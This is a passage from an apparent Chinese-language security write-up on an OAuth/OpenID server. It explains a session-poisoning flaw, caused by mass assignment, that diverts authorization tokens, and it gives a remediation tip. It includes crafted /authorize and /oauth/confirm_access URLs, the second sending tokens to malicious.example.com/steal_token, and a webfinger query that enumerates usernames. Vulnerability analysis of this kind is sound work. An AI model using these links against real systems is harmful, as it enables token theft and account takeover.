 

### Exploit

攻击者可以在认证和注册接口构造两个特殊的链接，每个链接都带着自己的redirect_uri参数，并提供给用户

```
/authorize?client_id=c931f431-4e3a-4e63-84f7-948898b3cff9&response_type=code&scope=openid&prompt=consent&redirect_uri=http://trusted.example.com/redirect
```

```
/oauth/confirm_access?client_id=c931f431-4e3a-4e63-84f7-948898b3cff9&response_type=code&prompt=consent&scope=openid&redirectUri=http://malicious.example.com/steal_token
```

client_id参数可以是任何用户已经信任的客户端程序，当访问到/confirm_access时，将从URL中获取所有参数，导致model/session poisoning。当用户批准第一个请求（因为client_id是trusted）时，认证的token就会被发送到恶意网站

注：第一个请求中的redirect_uri和第二个请求中的redirectUri参数名不同，是由于第一次请求是有效的OAuth参数，而第二次的参数名是在mass assignment期间和AuthorizationRequest.redirectUri绑定的

在开发时。此处的"@ModelAttribute("authorizationRequest)"注解不是必需的，并且在转发过程中会带来风险，因此建议更安全的方法是从Map\<String,Object\> model中取值，然后传递到@RequestMapping("/oauth/confirm_access")注解中

即使此处不存在mass assignment漏洞，也可以通过同时发送两个认证请求共享同一个session

## /.well-known/webfinger" makes all user names well-known

/.well-known/webfinger接口是一个标准的OpenID接口，通过这个接口可以显示服务器上的用户和资源信息。例如可以利用以下方式验证用户anonymous是否在服务器中

```
/.well-known/webfinger?resource=http://x/anonymous&rel=http://openid.net/specs/connect/1.0/issuer
```

![avatar](images/4.jpg)
